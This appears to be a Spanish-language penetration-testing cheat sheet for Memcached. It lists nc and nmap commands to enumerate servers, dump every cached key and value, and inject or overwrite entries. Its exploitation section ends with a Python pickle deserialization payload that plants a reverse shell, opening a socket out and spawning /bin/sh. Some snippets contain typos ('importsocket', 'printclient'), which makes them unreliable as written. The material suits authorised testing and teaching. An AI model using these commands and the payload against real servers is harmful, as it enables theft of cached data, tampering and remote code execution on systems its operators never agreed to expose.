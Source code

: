 # Memcached
Es un sistema distribuido de propósito general para caché basado en memoria.
## Enumeración
### Obtener información con nmap
```bash
nmap -p port --script memcached-info IP
```
## Interacción con el servicio
### Conexión
```bash
nc IP PORT
```
#### Obtener version 
```bash
echo -e 'version1\r\nquit\r\n' | nc IP PORT
```
#### Obtener la lista de keys (Python)
```python
from pymemcache.client.base import Client
import pprint
client = Client(('IP', PORT))
pp = pprint.PrettyPrinter(indent=4)
for i in range(0 , 7):
  pp.pprint(client.stats("cachedump",str(i),"0"))
```
#### Obtener la lista de warm keys 
```
echo -e 'lru_crawler metadump all\r\nquit\r\n' | nc IP PORT | grep 'fetch=yes'
```
#### Obtener el valor de una key concreta
```bash
echo -e 'get KEYNAME1\r\nquit\r\n' | nc IP PORT
```
##### JSONIFY Data usando pickle
```bash
echo -e "get data\r\nquit\r\n" | nc IP PORT > data
python -c 'import pickle;print pickle.load(open("data"));'
```
#### Obtener el numero total de parejas key value en el servidor
```bash
echo -e 'stats items1\r\nquit\r\n' | nc IP PORT | grep 'number '
```
Y sumamos los numeros de cada item 

#### Obtener el numero total de parejas key value en el servidor (Python)

```python
python -c 'from pymemcache.client.base import Client; client = Client(("IP", PORT)); printclient.stats()["curr_items"]'
```
#### Añadir una clave-valor nueva
```bash
nc IP PORT
> add CLAVE 0 0 LENGHT
> VALUE 
```
#### Actualizar el valor de una clave
```bash
nc IP PORT
> replace CLAVE 0 0 LENGHT
> VALUE 
```
### Dump de todos los valores usando bash
```bash
xargs -L1 -I% sh -c 'echo "get KEYNAME" | nc IP PORT'
for key in $(memcdump --server=IP); do echo ------ $key ------; memccat --server=IP $key; done
for key in $(memcdump --server=target-1); do echo ------ $key ------; memccat --server=target-1 $key; done
```
## Explotación
#### Libro de referencia 
```
https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf
```
#### Python Pickle Serlization Attack 
```python
import pickle
import subprocess
import os
from pymemcache.client.base import Client

class Shell(object):
    def __reduce__(self):
        return (os.system,("python -c 'importsocket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'&",))
        
client = Client(('IP', PORT))
client.set("pickled",pickle.dumps(Shell()))
```
